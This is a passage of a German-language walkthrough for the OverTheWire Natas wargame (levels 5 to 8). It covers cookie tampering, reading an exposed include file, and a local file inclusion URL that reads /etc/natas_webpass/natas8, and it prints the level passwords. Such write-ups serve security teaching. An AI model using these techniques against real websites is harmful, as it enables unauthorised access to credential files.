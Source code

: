 Es gibt also einen Cookie der **loggedin** heißt  und den Wert **0** besitzt. Wenn wir den Wert auf **1** setzen und die Seite neu laden, wird uns das Passwort für das nächste Level angezeigt.

```shell
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

## **Level 5 -> Level 6**

Bei diesem Level hier müssen wir das richtige Password für das für **Input Secret** finden. Im Quelltext steht in Zeile 17:

```shell
include "includes/secret.inc";
```

Wenn wir nun zu **http://natas6.natas.labs.overthewire.org/includes/secret.inc** gehen, finden wir:

```php
$secret = "FOEIUWGHFEEUHOFUOIU";
```

Jetzt müssen wir nur noch das Secret einfügen, absenden und geschafft.

```shell
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

## **Level 6 -> Level 7**

Im Seitenquelltext steht in Zeile 21:

```shell
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Wenn wir auf **Home** klicken sehen wir die URL **http://natas7.natas.labs.overthewire.org/index.php?page=home**

Hier können wir eine [LFI/RFI](http://wiki.hackerboard.de/index.php/LFI_%26_RFI) Schwachstelle ausnutzen. Dafür müssen wir nur folgende URL eingeben:

```shell
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

Jetzt wird uns das Password angezeigt: **DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**


## **Level 7 -> Level 8**

Im Seitenquelltext sehen wir, dass unser Input mit der Variable **$encodedSecret** verglichen wird. Dazu wird unser Input erst in Base64 enkodiert, dann umgedreht und schließlich werden die Binär Daten in Hex konvertiert. Um an das richtige Secret zu kommen, müssen wir diesen Prozess umkehren.

```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
```
